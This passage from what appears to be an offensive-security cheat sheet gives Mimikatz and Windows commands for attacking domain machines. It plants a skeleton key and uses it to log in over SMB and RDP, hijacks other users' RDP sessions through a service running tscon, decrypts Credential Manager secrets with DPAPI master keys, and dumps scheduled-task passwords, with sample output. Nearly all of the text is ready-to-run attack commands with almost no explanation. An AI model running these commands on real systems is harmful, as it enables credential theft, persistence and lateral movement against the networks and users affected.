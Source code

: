 ```powershell
privilege::debug
misc::skeleton
# map the share
net use p: \\WIN-PTELU2U07KG\admin$ /user:john mimikatz
# login as someone
rdesktop 10.0.0.2:3389 -u test -p mimikatz -d pentestlab
```

## Mimikatz - RDP session takeover

Use `ts::multirdp` to patch the RDP service to allow more than two users.

Run tscon.exe as the SYSTEM user, you can connect to any session without a password.

```powershell
privilege::debug 
token::elevate 
ts::remote /id:2 
```

```powershell
# get the Session ID you want to hijack
query user
create sesshijack binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#55"
net start sesshijack
```




## Mimikatz - Credential Manager & DPAPI

```powershell
# check the folder to find credentials
dir C:\Users\<username>\AppData\Local\Microsoft\Credentials\*

# check the file with mimikatz
$ mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\2647629F5AA74CD934ECD2F88D64ECD0

# find master key
$ mimikatz !sekurlsa::dpapi

# use master key
$ mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\2647629F5AA74CD934ECD2F88D64ECD0 /masterkey:95664450d90eb2ce9a8b1933f823b90510b61374180ed5063043273940f50e728fe7871169c87a0bba5e0c470d91d21016311727bce2eff9c97445d444b6a17b
```

Task Scheduled credentials

```powershell
mimikatz(commandline) # vault::cred /patch
TargetName : Domain:batch=TaskScheduler:Task:{CF3ABC3E-4B17-ABCD-0003-A1BA192CDD0B} / <NULL>
UserName   : DOMAIN\user
Comment    : <NULL>
Type       : 2 - domain_password
Persist    : 2 - local_machine
Flags      : 00004004
Credential : XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
Attributes : 0
```

